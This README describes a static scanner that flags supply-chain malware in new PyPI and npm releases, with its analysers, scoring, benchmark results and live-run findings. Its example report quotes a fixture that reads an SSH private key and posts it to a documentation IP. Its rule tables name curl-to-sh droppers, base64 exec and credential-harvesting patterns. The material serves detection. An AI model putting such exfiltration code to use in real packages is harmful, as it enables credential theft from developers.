

# Tripwire

Tripwire watches newly published PyPI and npm releases and flags signs of supply-chain malware: install-time hooks, obfuscated code, credential and environment harvesting, exfiltration endpoints, look-alike names and dependency-confusion versions. It is static only. It downloads each release into a quarantine folder, unpacks it with guards against hostile archives, reads the files as text or syntax trees, and gives the release a 0-100 risk score with a plain-English reason. It never installs, imports or runs package code.

It does the same kind of job as open-source tools such as GuardDog and the OSV / OpenSSF malicious-package work, at portfolio scale: about 3,300 lines of Python for the tool (plus 1,000 for the benchmark corpus and 3,000 of tests), six analysers, a SQLite store and a small dashboard.

## The problem

Package registries accept uploads from anyone, and installing a package can run its code straight away: `setup.py` during `pip install` of a source distribution, `preinstall`/`postinstall` scripts in npm. Attackers publish look-alike names (`reqeusts`), hijack maintainer accounts, or publish a public copy of a company's private package name with version `99.0.0`. Most of these attacks are crude, and crude attacks leave static traces, such as a postinstall that pipes `curl` into `sh`, a base64 blob passed to `exec`, or a Discord webhook next to a read of `~/.ssh/id_rsa`. Tripwire looks for those traces within seconds of publication so a person can review the few releases that matter. A flag tells that person where to look. It does not mean the release is malicious.

## Quickstart

Python 3.12 or newer.

```bash
python -m venv .venv
.venv\Scripts\activate            # Windows (source .venv/bin/activate elsewhere)
pip install -e .[dev]

tripwire scan path/to/package-1.0.tar.gz      # or a .whl, .zip, .tgz or a folder
tripwire scan some-folder --json              # machine-readable
tripwire watch --once --limit 20              # scan 20 fresh releases from the live feeds
tripwire watch --minutes 10                   # keep watching for 10 minutes
tripwire serve                                # dashboard on http://127.0.0.1:8000
tripwire bench                                # run the labelled benchmark
pytest                                        # 634 tests, no network needed
```

`scan` exits with 0 below the flag line, 1 when flagged and 2 when the archive could not be scanned, so it can gate a CI job. `watch` writes to `data/tripwire.db` and uses `./quarantine` by default. Use `--db`, `--quarantine`, or the `TRIPWIRE_DB` / `TRIPWIRE_QUARANTINE` variables to change that.

Example report:

```
twfx-ssh-key-raw-ip 1.0.0 (pypi)
Risk 92/100  CRITICAL  [FLAGGED; flag line is 50]
2 files, 229 bytes of text read

Risk 92/100 (critical). twfx_ssh/__init__.py reads or references SSH keys. twfx_ssh/__init__.py talks to
a hard-coded IP address (198.51.100.23) instead of a domain. It reads secrets and also contains a place to
send them.

Evidence (strongest first):
  0.50  credentials/ssh_keys  twfx_ssh/__init__.py:4
        twfx_ssh/__init__.py reads or references SSH keys.
        > key = open(os.path.expanduser("~/.ssh/id_rsa")).read()
  0.45  network/raw_ip  twfx_ssh/__init__.py:5
        twfx_ssh/__init__.py talks to a hard-coded IP address (198.51.100.23) instead of a domain.
        > requests.post("http://198.51.100.23/u", data=key)
```

## Architecture



```
src/tripwire/
  feeds/        http.py (polite client), pypi.py, npm.py
  quarantine.py safe extraction + digests
  loader.py     extracted files -> Package (text only)
  analyzers/    install_hooks, obfuscation, network, credentials, typosquat, depconfusion
  scanner.py    run analysers, archive-level findings
  scoring.py    noisy-OR + combination bonuses -> score, level, explanation
  pipeline.py   watch loop, timing stats
  db.py         SQLite
  web/          FastAPI API + static page
  bench/        labelled inert corpus + metrics
  cli.py        scan | watch | serve | bench
```

`docs/HOW_IT_WORKS.md` walks through every module and the life of one release.

## Safety model

Package code is never executed. The only things done with package content are `bytes.decode`, `json.loads`, `ast.parse` (syntax tree only, no bytecode) and regular expressions. `tests/test_no_execution.py` enforces this in two ways. At run time it turns `subprocess`, `os.system`, `os.exec*` / `os.spawn*`, `exec`, `eval`, `importlib.import_module` and `importlib.util` loaders, `runpy` and `pickle.load(s)` into traps that raise, allows `compile` only in AST-only mode, blocks imports of fixture module names, then scans the whole malicious corpus and asserts that no trap fired. A trap on `subprocess.run` cannot see a name bound earlier with `from subprocess import run`, so a second test parses the tool's own source and fails if it imports `subprocess`, `runpy`, `pickle`, `marshal`, `ctypes`, `yaml` or similar, or calls `exec`, `eval`, `compile`, `__import__` or a process or loader function.

`quarantine.py` applies these extraction guards, and tests cover each one with hostile archives built in memory:

- never `extractall`; each member is checked and copied by hand
- refused: `..` segments, absolute and UNC paths, drive letters, `:` (alternate data streams), Windows reserved names, symlinks, hard links, devices, FIFOs, encrypted zip members
- every resolved target must stay inside the quarantine folder
- no name can hide another file. An exact duplicate entry replaces the earlier copy (the last copy is what tar, npm and pip install). A name that only collides on Windows or macOS (`Setup.py` / `setup.py`, or an 8.3 short name like `INSTAL~1.JS`) is written to a side folder so both copies are analysed. Either case adds an `archive/name_collision` finding. File/directory collisions are refused
- caps: 25 MB archive, 5,000 members, 20 MB per file, 150 MB total. Bytes are counted while copying, so a zip that lies about sizes is still stopped, and tar header sizes are checked up front, including for refused members
- the decompressed tar stream is capped as a whole and no single header read may exceed 1 MB, because Python's `tarfile` reads GNU long-name and pax headers into memory before any per-member check runs (a 300 KB `.tar.gz` could otherwise make it allocate 600 MB)
- format detected from magic bytes, not the file name
- the quarantine folder must not be on `sys.path` or `PYTHONPATH`; it is deleted after every scan
- `tripwire scan <folder>` skips symlinks and NTFS junctions (which `os.walk` would otherwise follow)

Downloads are HTTPS only, from `files.pythonhosted.org` or `registry.npmjs.org` only. Redirects are not followed, size is capped while streaming, and the file is checked against the registry's sha256 / SRI digest before it is opened.

The rest of the untrusted text goes through parameterised SQL, `defusedxml` for the RSS feeds, a dashboard that writes values with `textContent` under a strict Content-Security-Policy, and terminal output with control characters escaped.

## Analysers

A finding has a weight from 0 to 1. At 0.30 or more the analyser "fired". Install-time code adds 0.1 to most network and credential rules.

| Analyser | Looks for | Example rules (weight) |
|---|---|---|
| `install_hooks` | Code that runs during install: `setup.py` and modules it imports, `.pth` files, npm `preinstall`/`install`/`postinstall` and the files they run | shell dropper in an npm script (0.8), `.pth` that execs (0.8), downloader at install (0.75), network at install (0.6), other process (0.35), build tools such as cmake / node-gyp (0.05-0.1) |
| `obfuscation` | Decode-then-execute, packer output, blobs | `exec(b64decode(...))` (0.85), `eval(atob(...))` (0.75), reversed string to exec (0.7), `_0x` packer names (0.6), `getattr` with a name built from constant pieces (0.45), long single line in install code (0.5), blobs (0.2 runtime / 0.45 install) |
| `network` | Places stolen data goes | request catchers (0.65), whole environment sent over the network (0.65), Discord / Telegram (0.6), DNS lookup of a name built from data (0.6), tunnels (0.55), paste hosts (0.5), hard-coded public IP (0.45) |
| `credentials` | Reads of secrets | Discord / Telegram session folders (0.65), browser profiles, wallets (0.6), `json.dumps(os.environ)` (0.55), SSH keys (0.5), cloud and registry tokens (0.45), shell history (0.4), 3+ secret token names (0.35) |
| `typosquat` | Names close to ~300 popular names per ecosystem | look-alike characters (0.7), keyboard / swap typo (0.65), separators removed (0.6), two edits on long names (0.4), popular name + stock affix (0.35) |
| `depconfusion` | Absurd versions on unknown names | major >= 99 (0.45), >= 1000 (0.55); calendar and date versions exempt |
| `archive` | Problems with the archive itself | path escape attempts (0.6), files the OS would not let us read back, usually antivirus (0.4), links (0.2) |

The strongest hit per rule counts once, so a large package does not get a higher score just for its size, and findings under 0.2 are context only. Rules combine inside an analyser by noisy-OR (`1 - (1-a)(1-b)...`), then analysers combine the same way. Eight combinations that are far worse together than apart add a bonus; reading secrets plus an exfil channel adds 0.20. The score is 0-100: 85+ critical, 70+ high, 50+ medium (the flag line), 20+ low.

## Benchmark (self-made corpus)

`tripwire bench` builds 113 tiny inert packages in code, 59 with a malicious signal and 54 benign, packs them into real sdists, wheels and npm tarballs, and runs them through the full scanner. Malicious fixtures hold only the signal a rule looks for, for example a postinstall that pipes curl to sh, a random base64 blob passed to `exec`, or an install override that posts `os.environ`. They use reserved hosts (`*.example.invalid`, `example.com`), documentation IP ranges (RFC 5737) and fake tokens. Benign fixtures include deliberately tricky cases: a CMake build step, a setuptools-style `.pth` shim, an env-dump CLI, an SSH config helper, a version that tracks a browser's major number. Each fixture is labelled with the behaviour categories it was written to show. I assigned the labels from the snippet, not from the rules. The index is in `benchmark/labels.csv`.

Fixture package names are invented. Most are `twfx-*`; the typosquat and dependency-confusion fixtures need look-alike names (`reqeusts`, `lodahs`) or placeholder company names (`acme-`, `contoso-`, `fabrikam-`). A "malicious" label describes the self-written fixture code only. If a real package on PyPI or npm shares one of these names, it has nothing to do with this corpus and is not being called malicious.

I wrote both the rules and the corpus, so these numbers show that the rules do what they were designed to do on cases I thought of. They are not a real-world detection rate. The misses and false positives tell you more than the totals.

```
analyser         TP  FP  FN   prec  recall     F1
--------------------------------------------------
install_hooks    20   1   2   0.95    0.91   0.93
obfuscation      13   1   0   0.93    1.00   0.96
network          14   1   7   0.93    0.67   0.78
credentials      14   4   3   0.78    0.82   0.80
typosquat        10   2   1   0.83    0.91   0.87
depconfusion      5   1   0   0.83    1.00   0.91
--------------------------------------------------
overall (>=50)   50   5   9   0.91    0.85   0.88

Flag-line sweep (malicious vs benign):
  score >=   TP  FP  FN   prec  recall
  20         57  16   2   0.78    0.97
  35         57  11   2   0.84    0.97
  50         50   5   9   0.91    0.85
  70         32   2  27   0.94    0.54
  85         19   1  40   0.95    0.32
```

From these results:

- The network analyser is the weakest (recall 0.67). It knows specific exfil services, raw IPs, DNS tricks and whole-environment sends. A beacon to an ordinary-looking domain, a Node `net.connect(port, host)` call and named secrets posted as JSON all get past it. In practice `install_hooks` catches install-time network calls instead.
- Credential rules flag what code can reach, whatever its intent. Four benign fixtures (an AWS config reader, an SSH `known_hosts` helper, a deploy tool that edits `~/.ssh/config`, a publish helper that checks `.npmrc`) fire the credentials analyser, and two of them reach the flag line on that alone.
- The benign fixtures over the flag line (5) are the `.pth` import shim (80), a plugin loader that runs `exec(path.read_bytes().decode())` (85), a hostname built from a region name (60), and the two SSH helpers (50).
- The malicious fixtures under the flag line (9) are mostly single moderate signals that score 35-45 on their own: a raw-IP post, kube/gcloud paths, shell history, `getattr`-hidden exec. Two "hard" cases score 0.
- The full output, including every false positive and miss, is in `benchmark/results.txt` (regenerate with `python benchmark/run_benchmark.py`).

## Live run

I made two 10-minute runs of `tripwire watch --minutes 10 --limit 400` against the real public feeds on 2026-11-18, from a Windows 11 desktop. Settings: one thread, at least 0.5-2 s between requests to the same host, User-Agent `tripwire-portfolio/0.1.0`. Downloaded archives were deleted after each scan, and the run databases stayed local (git-ignored, not in the repository).

| | Run 1 (rules as first written) | Run 2 (after fixing what run 1 found) |
|---|---|---|
| Releases handled | 97 (49 PyPI, 48 npm) | 87 (44 PyPI, 43 npm) |
| Scanned | 88 | 82 |
| Skipped (over 25 MB) / refused or failed | 3 / 6 | 1 / 4 |
| Scan time per release, p50 / p95 / max | 1.6 s / 23.9 s / 88 s | 1.6 s / 17.1 s / 147 s |
| Download time per release, p50 / p95 | 0.26 s / 0.68 s | 0.29 s / 0.75 s |
| Levels | none 78, low 4, medium 2, high 1, critical 3 | none 79, low 2, medium 1 |
| Flagged (score >= 50) | 6 | 1 |

The ten minutes ran out after about 90 releases per run, short of "a few hundred". Scan time goes to extraction and reading. On Windows, antivirus inspects every file as it is written and opened, so a package with hundreds of files takes tens of seconds. Analysis itself takes a fraction of a second after the keyword prefilter described in `docs/HOW_IT_WORKS.md`. The refusals were legitimate but large packages hitting the extractor's caps: prebuilt native binaries over the 20 MB per-file cap, one sdist declaring more than 150 MB, one package over 5,000 files. One failure was a 404 for a version deleted between the feed and the download.

Every flag in the spot check was a false positive. No release in either run looked malicious on manual review. In general terms:

- Run 1 had six flags, all legitimate developer tools. Four involved the whole-environment rule: a CLI passing `{ ...process.env }` to a child process, a local artifact store's `.put()` method, and a webhook notifier reading single settings through an alias. Four involved SSH-path matching: an SSH helper's help text, a secrets guard that lists `.ssh` among paths to protect, and property access like `before.ssh`. One of these also used a documentation IP address in an example.
- I fixed those patterns with per-function taint, single-value reads through an alias, no generic `.put()`, `process.env` handed to a child process ignored, and a stricter `.ssh` path match. Each has a regression test, and the benchmark numbers did not change.
- Run 2 had one flag at exactly 50, an SSH management tool that legitimately works with `~/.ssh`. Part of the match was the README table embedded in the package's `PKG-INFO`, so package metadata prose is now skipped like a README. The tool's own SSH code still scores, because path rules cannot tell capability from intent.
- Below the line, run 2 had an unknown package published at version `999.9.9` (dependency-confusion pattern, 45; not investigated further, not a claim either way) and a connectivity check in a test file that connects to a hard-coded IP (45).

On about 170 real releases, the false-positive rate at the flag line went from 7% (6 of 88) to 1% (1 of 82) after one round of fixes, with no true positive to measure recall against. The two runs saw different releases, so this is not a controlled before/after on one fixed set, and with counts this small it only shows a direction. It is not a measured rate. Real malicious uploads are rare and registries remove them quickly, so a few minutes of sampling is not expected to catch one.

## Limitations

- It is static and heuristic. Rules match patterns in text and syntax trees. They cannot see what code does at runtime, and they score capability (a path to `~/.ssh` in a string) the same way whether the intent is good or bad.
- It is easy to evade on purpose. Put the payload in a runtime module, fetch it from an ordinary domain, split strings across files, use an unmodelled decoder, or ship a compiled binary. Tripwire makes lazy attacks more expensive and will not stop a determined attacker.
- The weights are hand-picked. I set them by reasoning; they were not fitted on labelled real-world data. The benchmark is self-made.
- The popular-name lists are small and static (about 300 per ecosystem), so typosquats of mid-popularity packages are missed, and legitimate `<name>-js` / `py<name>` ports score 0.35.
- There is no binary analysis (`.so`, `.node`, `.exe` are counted, not read). Files over 2 MB are truncated, archives nested inside a package (a `.tgz` or `.whl` inside an sdist) are not opened, and npm scans only the `latest` dist-tag of each changed package, so a prerelease published under another tag is missed.
- A refused archive is not flagged. An archive the extractor refuses (a file over 20 MB, more than 150 MB in total, more than 5,000 members) is stored as an error and gets no score. Padding a release past a cap with a well-compressing file therefore keeps it out of analysis. The dashboard lists these errors, but a reviewer has to look at them.
- PyPI's RSS shows about the last 100 updates, so a burst between polls can be missed. npm's changes feed is exact.
- The dashboard has no authentication. It binds to localhost by default and warns if you bind elsewhere.
- On Windows, antivirus scans every extracted file, which dominates scan time on large packages and can remove files mid-scan (reported as `archive/unreadable_files`). With one thread that limits a watch to roughly 90 releases per 10 minutes. Both registries publish faster than that, so a watch samples the feeds and does not see every release.
- SSH and credential tools are flagged by design. A package that manages SSH keys references `~/.ssh` exactly as a stealer does, and string rules still match names like a logger called `"app.ssh"`.

## Project layout and tests

```
benchmark/   run_benchmark.py, labels.csv, results.txt
docs/        HOW_IT_WORKS.md
src/         the package
tests/       634 pytest tests (313 functions; the rest are parametrised cases)
```

The tests cover each analyser with true positives and benign near-misses, every extraction guard with archives built in memory (including duplicate-name, 8.3 short-name and tar header-bomb archives), scoring thresholds, the end-to-end pipeline on in-memory archives with a mocked HTTP transport, feed parsing from synthetic RSS and JSON, the database, the dashboard API through FastAPI's TestClient, the CLI, the no-execution guarantee, and the corpus itself (every host in every fixture is checked to be reserved or a documentation address). No test touches the network.

## License

MIT
